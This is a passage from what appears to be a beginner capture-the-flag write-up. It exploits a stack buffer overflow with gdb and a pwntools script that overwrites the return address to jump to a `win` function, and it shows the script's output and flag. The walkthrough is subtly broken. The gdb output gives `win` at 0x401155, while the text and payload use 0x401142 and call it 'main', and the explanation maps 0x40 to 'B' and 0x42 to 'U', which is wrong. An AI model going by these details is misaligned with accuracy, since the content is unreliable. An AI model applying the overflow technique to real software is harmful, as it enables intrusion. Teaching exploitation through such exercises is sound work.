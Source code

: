 After the program crashed I ran `info frame` to inspect the current stack frame, and low-and-behold,
the saved `rip` value (a.k.a. the return address) is now `0x6161616161616162`. You may be wondering
why the last byte is `0x62` instead of the first byte. This is because numbers are stored backwards
by modern CPUs, but text is not. Therefore when we overwrite a number with text, we need to reverse
the value before we type it.

### Finding the address of `win`

Now that we have confirmed that this works how we expected it to, we need to find out what the
address of the `win` function is. This is pretty easy to do with `gdb` using the command `p win`.

```console
$ gdb ./challenge
gdb) p win
$2 = {<text variable, no debug info>} 0x401155 <win>
```

This tells us that the address of main is `0x401142`. But how do we type that address into the
program? This address has three non-zero bytes, `0x40`, `0x11` and `0x42`. `0x40` can be typed as `B`
and `0x42` can be typed as `U`, however, `0x11` is not a typable character. This is where `pwntools`
comes in handy.

### Creating the exploit

To create an exploit that solves this challenge, we will need to use `pwntools`. `pwntools` is a
super useful Python package that has everything required to be able to automate the exploitation of
a program. Install `pwntools` by running `pip3 install pwntools`.

To start the exploit, we will run the challenge program using the `process` function. We will then
construct a payload with 40 `a`s (could be any characters) followed by the address of `win`, and
then get `pwntools` to 'type' this payload into the program.

```python
from pwn import *

p = process('./challenge')

payload  = b'a' * 32     # Fill `buf`
payload += b'a' * 8      # Overwrite saved `rbp` (we don't care what its value is)
payload += p64(0x401142) # Convert the address of `win` to a series of characters

p.sendline(payload)      # Automatically type the payload into the program and hit enter
print(p.recvall())       # Wait until the program finishes and then print out all of its output
```

Running this exploit using `python3 exploit.py` gives the following output:

```
// This is a safe way to get user input, right??
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaB\x11@
flag{mayb3_1_5h0u1d_g0_back_t0_c_5ch0o1}
```
